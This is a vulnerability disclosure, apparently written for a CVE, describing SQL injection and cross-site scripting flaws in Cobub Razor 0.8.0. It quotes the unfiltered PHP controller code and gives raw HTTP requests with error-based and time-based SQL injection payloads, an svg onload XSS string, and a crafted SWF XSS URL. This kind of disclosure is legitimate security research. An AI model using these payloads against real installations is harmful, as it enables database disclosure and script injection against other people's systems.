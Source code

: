 
## An SQL Injection vulnerability exists in Western Bridge Cobub Razor 0.8.0 via the channel_name and platform parameter in a /index.php?/manage/channel/addchannel request. ##  

Vendor Homepage : http://www.cobub.com/

Software Link : https://github.com/cobub/razor/releases

Affected Version : <= 0.8.0

## Vulnerability description ##  

The string  of the 'channel_name' and 'platform' parameter transmission is completely without check and filter,so if the string is passed, it will lead to the existence of SQL injection vulnerability,This could result in full information disclosure.

Code source:  
/application/controllers/manage/channel.php at line 75-95
```
    /**
     * Addchannel add custom channel
     *
     * @return bool
     */
    function addchannel()
    {
        $userid = $this->common->getUserId();
        $channel_name = $_POST['channel_name'];
        $platform = $_POST['platform'];
        $isUnique = $this->channel->isUniqueChannel($userid, $channel_name, $platform);
        if (!empty($isUnique)) {
            echo false;
        } else {
            if ($channel_name != '' && $platform != '') {
                
                $this->channel->addchannel($channel_name, $platform, $userid);
                echo true;
            }
        }
    }
```
## Technical details ##
request:
```
POST /index.php?/manage/channel/addchannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 28
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22771b48bbea848fd396ce3c79263c7ef8%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520496121%3B%7D237011da46b2342467385c6f24631de2
X-Forwarded-For: 8.8.8.8
Connection: close

channel_name=test&platform=1%22
```  

## Proof of Concept ##  

The SQL injection type: error-based and AND/OR time-based blind  
Parameter: channel_name,platform  
Payload(This string is also applied to 'platform' at the same time):  
```
1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```
Input special characters ["] can cause an error in the SQL syntax:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_1.png)  
Use manual injection:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_2.png)
SQLmap results:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_3.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_4.png)

## Update Content ##
New discovery：
1.SQL injection
(1)http://localhost/index.php?/manage/channel/addsychannel  

```
POST /index.php?/manage/channel/addsychannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 25
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22bb44fb495a8fe728431c1928cb1d7262%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1523169922%3B%7D85bbd681a4008cee10faf391870dfb59
X-Forwarded-For: 10.0.0.1
Connection: close

channel_name=1&platform=1%22
```  
(2)http://127.0.0.1/index.php?/manage/channel/modifychannel  
```
POST /index.php?/manage/channel/modifychannel HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: ci_session2=a%3A5%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22889ee6cfbfef845881c1fef14b37a558%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1523172925%3Bs%3A9%3A%22user_data%22%3Bs%3A0%3A%22%22%3B%7D9e913409dd356b1d7cb57ceeb291d727
X-Forwarded-For: 10.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

channel_id=1212%22&channel_name=xss><svg/onload=alert(1)>&platform=1
```  

2.SWF xss  
http://localhost/assets/swf/uploadify.swf?uploadifyID=00"));}catch(e){alert(1);}//("&movieName="])}catch(e){if(!window.x){window.x=1;alert(2)}}//&.swf  


